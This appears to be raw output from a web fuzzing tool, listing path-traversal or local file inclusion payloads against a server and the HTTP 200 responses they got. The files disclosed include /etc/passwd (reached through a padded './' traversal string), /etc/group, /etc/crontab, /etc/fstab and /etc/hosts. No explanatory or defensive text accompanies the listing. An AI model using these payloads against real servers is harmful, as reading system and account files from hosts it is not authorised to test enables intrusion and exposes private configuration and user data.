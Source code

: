 ```
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000598:   200        47 L     66 W       2499 Ch     "/./././././././././././etc/passwd"                                                                                       
000000716:   200        2 L      9 W        51 Ch       "/etc/aliases"                                                                                                            
000000714:   200        88 L     467 W      3028 Ch     "/etc/adduser.conf"                                                                                                       
000000703:   200        280 L    947 W      9216 Ch     "/boot/grub/grub.cfg"                                                                                                     
000000767:   200        42 L     275 W      2437 Ch     "/etc/apt/sources.list"                                                                                                   
000000806:   200        54 L     207 W      1735 Ch     "/etc/dhcp/dhclient.conf"                                                                                                 
000000805:   200        20 L     99 W       604 Ch      "/etc/deluser.conf"                                                                                                       
000000801:   200        33 L     166 W      1230 Ch     "/etc/default/grub"                                                                                                       
000000799:   200        83 L     485 W      2969 Ch     "/etc/debconf.conf"                                                                                                       
000000800:   200        1 L      1 W        13 Ch       "/etc/debian_version"                                                                                                     
000000791:   200        1 L      8 W        54 Ch       "/etc/crypttab"                                                                                                           
000000790:   200        23 L     206 W      1136 Ch     "/etc/crontab"                                                                                                            
000000779:   200        148 L    211 W      5888 Ch     "/etc/ca-certificates.conf"                                                                                               
000000771:   200        71 L     329 W      2319 Ch     "/etc/bash.bashrc"                                                                                                        
000000817:   200        17 L     116 W      866 Ch      "/etc/fstab"                                                                                                              
000000831:   200        3 L      18 W       92 Ch       "/etc/host.conf"                                                                                                          
000000830:   200        125 L    723 W      4436 Ch     "/etc/hdparm.conf"                                                                                                        
000000832:   200        1 L      1 W        12 Ch       "/etc/hostname"                                                                                                           
000000827:   200        75 L     75 W       1060 Ch     "/etc/group-"                                                                                                             
000000824:   200        17 L     124 W      694 Ch      "/etc/fuse.conf"                                                                                                          
000000825:   200        74 L     74 W       1050 Ch     "/etc/group"                                                                                                              
000000901:   200        17 L     111 W      711 Ch      "/etc/hosts.deny"                                                                                                         
000000900:   200        10 L     57 W       411 Ch      "/etc/hosts.allow"                                                                                                        
000000899:   200        9 L      25 W       222 Ch      "/etc/hosts"                                                                                                              
000000951:   200        17 L     40 W       334 Ch      "/etc/ldap/ldap.conf"                                                                                                     
000000945:   200        2 L      5 W        26 Ch       "/etc/issue"                                                                                                              
000000978:   200        5 L      36 W       195 Ch      "/etc/modules"                                                                                                            
000000971:   200        132 L    719 W      5217 Ch     "/etc/manpath.config"                                                                                                     
000000964:   200        4 L      6 W        104 Ch      "/etc/lsb-release"                                                                                                        
```